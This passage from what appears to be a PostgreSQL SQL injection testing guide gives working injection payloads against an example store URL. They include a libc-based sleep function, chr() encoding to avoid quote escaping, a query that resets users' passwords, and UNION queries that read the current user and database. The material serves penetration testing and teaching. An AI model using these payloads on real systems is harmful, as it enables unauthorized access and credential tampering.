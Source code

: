 -   `CREATE function pg_sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' LANGUAGE 'C' STRICT`

### Single Quote Unescape

Strings can be encoded, to prevent single quotes escaping, by using `chr()` function.

-   `chr(n)`: Returns the character whose ASCII value corresponds to the number `n`
-   `ascii(n)`: Returns the ASCII value which corresponds to the character `n`

Let’s say you want to encode the string ‘root’:

```
select ascii('r')
114
select ascii('o')
111
select ascii('t')
116
```

We can encode ‘root’ as:

`chr(114)||chr(111)||chr(111)||chr(116)`

#### Example

`http://www.example.com/store.php?id=1; UPDATE users SET PASSWORD=chr(114)||chr(111)||chr(111)||chr(116)--`

### Attack Vectors

#### Current User

The identity of the current user can be retrieved with the following SQL SELECT statements:

```
SELECT user
SELECT current_user
SELECT session_user
SELECT usename FROM pg_user
SELECT getpgusername()
```

##### Example

```
http://www.example.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL--
http://www.example.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL--
```

#### Current Database

The built-in function current_database() returns the current database name.

##### Example

`http://www.example.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL--`

